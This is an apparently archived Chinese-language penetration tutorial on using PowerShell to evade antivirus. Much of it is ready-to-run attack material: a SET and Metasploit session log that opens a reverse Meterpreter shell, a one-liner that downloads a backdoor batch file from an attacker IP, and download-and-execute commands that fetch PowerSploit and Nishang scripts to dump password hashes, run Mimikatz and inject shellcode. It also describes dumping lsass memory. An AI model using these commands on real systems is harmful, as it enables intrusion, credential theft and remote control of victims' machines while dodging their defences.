










# Powershell tricks::Bypass AV

2014/10/27 10:32 | [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [渗透案例](http://drops.wooyun.org/category/pentesting "查看 渗透案例 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 Powershell 简介

* * *

Powershell 犹如 linux 下的 bash，并且在 windows 中 Powershell 可以利用.NET Framework 的强大功能，也可以调用 windows API，在 win7/server 2008 以后，powershell 已被集成在系统当中。 Powershell 强大的功能特性给 windows 管理带来了极大的便利，同时也更加便于 windows 下的渗透测试。

## 0x01 PowerShell Execution Policy

* * *

Powershell 脚本默认情况下无法双击或在 cmd 下执行。在执行时需要通过一些方法绕过该策略。 最简单的方法就是执行 powershell.exe 附加需要执行的命令，也可以将要执行的脚本直接复制进 powershell 的窗口。 当然也可以`Download and execute`，如下面示例中一样。

如果需要执行 ps1 文件时，也可以这样：

```
PowerShell.exe -ExecutionPolicy Bypass -File .\runme.ps1 
```

不建议使用其他方法全局改变执行策略，如果场景不同可以根据[参考](https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy)自行选择执行方式。

## 0x02 Reverse the Shell

* * *

在遇到防护软件时，可以使用 powershell 执行 shellcode 返回 shell。执行脚本可以用 msf 生成，也可以用 set 工具包生成，注意的是 msf 生成的 ps1 文件，而 set 生成的是 bat 文件。 下面是在 set 中生成的过程：

```
Select from the menu:

   1) Social-Engineering Attacks
   2) Fast-Track Penetration Testing
   3) Third Party Modules
   4) Update the Metasploit Framework
   5) Update the Social-Engineer Toolkit
   6) Update SET configuration
   7) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 1

..SNIP...

 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) SMS Spoofing Attack Vector
   8) Wireless Access Point Attack Vector
   9) QRCode Generator Attack Vector
  10) Powershell Attack Vectors
  11) Third Party Modules

  99) Return back to the main menu.

set> 10

The Powershell Attack Vector module allows you to create PowerShell specific attacks. These attacks will allow you to use PowerShell which is available by default in all operating systems Windows Vista and above. PowerShell provides a fruitful  landscape for deploying payloads and performing functions that  do not get triggered by preventative technologies.

   1) Powershell Alphanumeric Shellcode Injector
   2) Powershell Reverse Shell
   3) Powershell Bind Shell
   4) Powershell Dump SAM Database

  99) Return to Main Menu

set:powershell>1
set> IP address for the payload listener: 192.168.200.159
set:powershell> Enter the port for the reverse [443]:4444
[*] Prepping the payload for delivery and injecting alphanumeric shellcode...
[*] Generating x86-based powershell injection code...
[*] Finished generating powershell injection bypass.
[*] Encoded to bypass execution restriction policy...
[*] If you want the powershell commands and attack, they are exported to /root/.set/reports/powershell/
set> Do you want to start the listener now [yes/no]: : yes

..SNIP...

[*] Processing /root/.set/reports/powershell/powershell.rc for ERB directives.
resource (/root/.set/reports/powershell/powershell.rc)> use multi/handler
resource (/root/.set/reports/powershell/powershell.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/.set/reports/powershell/powershell.rc)> set lport 4444
lport => 4444
resource (/root/.set/reports/powershell/powershell.rc)> set LHOST 0.0.0.0
LHOST => 0.0.0.0
resource (/root/.set/reports/powershell/powershell.rc)> exploit -j
[*] Exploit running as background job.
msf exploit(handler) > 
[*] Started reverse handler on 0.0.0.0:4444 
[*] Starting the payload handler...
[*] Sending stage (769024 bytes) to 192.168.200.158
[*] Meterpreter session 1 opened (192.168.200.159:4444 -> 192.168.200.158:49818) at 2014-10-23 18:17:35 +0800

msf exploit(handler) > sessions 

Active sessions
===============

  Id  Type                   Information                               Connection
  --  ----                   -----------                               ----------
  1   meterpreter x86/win32  WIN-M49V8M0CSH2\server @ WIN-M49V8M0CSH2  192.168.200.159:4444 -> 192.168.200.158:49818 (192.168.200.158) 
```

生成的文件在`/root/.set/reports/powershell/`下。 其中`x86_powershell_injection.txt`为 bat 文件，可以直接改名运行。 在这里有个技巧可以通过 powershell 一句话直接下载文件。

```
powershell (new-object System.Net.WebClient).DownloadFile( 'http://192.168.200.159/backdoor','backdoor.bat') 
```



然后再执行就可以得到 meterpreter 会话了。



并且可以正常执行 cmd 命令、dump hash 明文等操作。





## 0x03 Dump the hash

* * *

当然在仅仅需要 dump hash 时，也可以借助 powershell 来完成。

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes 
```



## 0x04 Dump the plain Password

* * *

同样也可以用下面的方式(执行 powershell 版的 Mimikatz)获取明文。

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz –DumpCerts 
```



值得注意的是在这里也可以通过 Command 参数执行 Mimikatz 命令。

## 0x05 Memory Dumping

* * *

Powershell 也可以完成像 procdump 一样的工作，获取某个进程的 dumps。 这里演示获取 lsass.exe 的 dumps，然后再用 Mimikatz 从 dumps 中获取明文。



然后将 lsass dumps 文件下载回来用 Mimikatz 分析可以得到明文密码。



当然内存 dumps 不仅仅可以获取 windows 密码，往往进程内存中或许会储存其他重要的信息或数据。参考[`blog.spiderlabs.com/2012/07/pentesting-like-an-eastern-european.html`](http://blog.spiderlabs.com/2012/07/pentesting-like-an-eastern-european.html)。

## 0x06 Execute the shellcode

* * *

Powershell 由于丰富的扩展功能使得其调用 windows API 非常方便，所以同样也可以执行 shellcode，这一过程如下：

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode –help 
```



但是在这里有个问题，就是 x64 下 shellcode 已有的很少，往往通过网上搜集的 shellcode 都是 x86 的。如果直接执行 x86 的 shellcode 则会出错。

不过 Invoke-Shellcode.ps1 脚本默认是将 shellcode 注入在 powershell.exe 进程中，那么便可以用 64 位系统环境下 32 位的 powershell.exe 执行 x86 的 shellcode，过程如下：

```
c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Shellcode 0x90,0x90,0x90 ... 
```



并且这一过程适用于大部分 msfpayload 生成的 shellcode。当然在 windows 下执行 shellcode 也可以用其它的方法，比如[shellcodeexec](https://github.com/inquisb/shellcodeexec)。不过这个方法并不能 bypass AV。但是大家可以根据源码自行 bypass。

未完待续。

版权声明：未经授权禁止转载 [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [使用 LDAP 查询快速提升域权限](http://drops.wooyun.org/pentesting/2125)
*   [非扫描式定位攻击域内 SQL Server](http://drops.wooyun.org/pentesting/2134)
*   [TPLINK 渗透实战](http://drops.wooyun.org/tips/2552)
*   [WIFI 渗透从入门到精通](http://drops.wooyun.org/pentesting/3390)
*   [One git command may cause you hacked(CVE-2014-9390)](http://drops.wooyun.org/papers/4386)
*   [Laravel cookie 伪造,解密,和远程命令执行](http://drops.wooyun.org/papers/1515)